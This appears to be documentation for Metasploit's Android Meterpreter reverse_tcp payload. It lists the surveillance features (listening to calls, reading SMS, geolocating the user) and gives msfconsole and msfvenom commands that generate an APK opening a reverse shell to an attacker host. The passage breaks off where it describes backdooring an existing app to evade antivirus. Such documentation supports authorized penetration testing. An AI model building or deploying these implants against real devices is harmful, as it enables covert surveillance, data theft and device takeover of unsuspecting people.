 The android/meterpreter/reverse_tcp payload is a Java-based Meterpreter that can be used on an
Android device. It is still at an early stage of development, but there are so many things you can
do with it already.

The Android Meterpreter allows you to do things like take remote control the file system, listen to phone calls, retrieve or send SMS messages, geo-locate the user, run post-exploitation modules, etc.

## Vulnerable Application

You can test android/meterpreter/reverse_tcp on these devices:

**Android Emulator**

An emulator is the most convenient way to test Android Meterpreter. You can try:

* [Android SDK](http://developer.android.com/sdk/index.html#Other) - Creates and manages your emulators from a command prompt or terminal.
* [Android Studio](http://developer.android.com/sdk/installing/index.html?pkg=studio) - Allows you to manage emulators more easily than the SDK.
* [GenyMotion](https://www.genymotion.com/download/) - Requires an account. 
* [AndroidAVDRepo](https://github.com/dral3x/AndroidAVDRepo) - Contains a collection of pre-configured emulators.


**A real Android device**

Having a real Android device allows you to test features or vulnerabilities you don't necessarily
have from an emulator, which might be specific to a manufacturer, carrier, or hardware. You also
get to test it over a real network.


## Verification Steps

Currently, the most common way to use Android Meterpreter is to create it as an APK, and then
execute it.

To create the APK with msfconsole:

```
msf > use payload/android/meterpreter/reverse_tcp 
msf payload(reverse_tcp) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf payload(reverse_tcp) > generate -t raw -f /tmp/android.apk
[*] Writing 8992 bytes to /tmp/android.apk...
msf payload(reverse_tcp) >
```

To create the APK with msfvenom:

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

You can also add Android meterpreter to any existing APK. This will make it harder for
Anti-virus software to detect the payload, and allow you read internal files and take
screenshots of the Android app you are backdooring:
